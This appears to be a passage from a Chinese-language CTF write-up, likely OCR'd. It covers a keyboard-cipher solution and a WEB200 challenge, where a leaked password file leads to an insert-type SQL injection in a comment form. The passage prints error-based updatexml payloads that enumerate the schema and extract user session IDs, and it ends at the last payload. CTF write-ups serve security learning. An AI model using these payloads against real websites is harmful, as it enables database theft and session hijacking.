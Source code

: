 [行,列] 一个一个字符解就是了,比如

```
[4,4] = j
[2,11] = l 
```

之后出现的 [4,1,x,x] 是 Shift + [x,x]

### ￼￼WEB200

在登陆页查看网页源码发现

```
<!--I'm lazy, so I save password into a file named password.key --> 
```

下载 password.key 文件,打开里面为一段加密后的 javascript 代码,直接在控制台执行得到 :

```
Password: xssbbs 
```

任意用户名+xssbbs 做密码即可登陆,但唯独不能用 admin 登陆。

登陆后发现能发表评论,根据题目中 xss 提示发现存在 xss 漏洞。但是只能 x 自己的 xss 不是好 xss。用单引号测试提交字段,发现存在 SQL 注入漏洞。

因为发表评论,此处应为 insert 类型的注入,利⽤MySQL 的报错性质。

得到数据库:

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(schema_name) FROM information_schema.schemata )),0) or '&content=s 
```

发现有 information_schema,kaer 两个数据库

得到 kaer 的表名

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())),0) or '&content=s 
```

有 comment,user 两个表

查找 user 表的列名

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='user')), 0) or '&content=s 
```

user 表有 id,username,session_id 三个列

直接查 session_id

```
title=title=s' or updatexml(0,(SELECT group_concat(id,0x7e,session_id) FROM user),0) or '&content=s 
```

